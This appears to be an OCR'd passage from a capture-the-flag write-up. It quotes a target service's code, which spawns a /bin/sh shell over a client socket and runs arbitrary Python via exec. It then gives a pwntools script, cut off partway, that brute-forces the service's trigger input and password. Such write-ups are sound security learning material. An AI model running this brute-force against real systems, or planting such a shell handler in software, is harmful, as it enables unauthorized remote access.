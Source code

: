 ````bash
+            change_uid()
+
+        if data == 'shell':
+            shell(client_socket)
+        else:
+            exec_python(client_socket, data)
+
+def shell(client_socket):
+    try:
+        import pty
+        os.dup2(client_socket.fileno(), 0)
+        os.dup2(client_socket.fileno(), 1)
+        os.dup2(client_socket.fileno(), 2)
+        pty.spawn("/bin/sh")
+    except Exception as e:
+        send_data(client_socket, e
+
+...............................................
````
Examining the code snippet & it's functions.
- Unknown input triggers an admin check; unauthorized sockets get downgraded.
- `shell` spawns an interactive shell for remote access.
- Other inputs run via `exec`, enabling arbitrary code execution.

---

Knowing this, we can craft a simple script to brute-force valid inputs and passwords using a wordlist.
````python
#!/usr/bin/env python3

import argparse
import threading
from pwn import remote, context

stop_flag = threading.Event()
valid_input = None

def brute_force(target_ip, target_port, wordlist, mode):
    """Brute-force inputs or passwords."""
    global valid_input
    context.log_level = "error"

    for word in wordlist:
        if stop_flag.is_set():
            return

        try:
            r = remote(target_ip, target_port, timeout=3)
            if mode == "input":
                r.sendline(word.encode())
                response = r.recvline(timeout=2)
                if b'not defined' not in response \
                and b'<string>' not in response and response.strip():
                    valid_input = word
                    stop_flag.set()
                    print(f"Valid input found: {word}")
            else:
                r.sendline(valid_input.encode())
                r.recvuntil(b"Password:\n")
                r.sendline(word.encode())
                response = r.recvline(timeout=2)
                if b"shell" in response:
                    print(f"Password found: {word}")
````
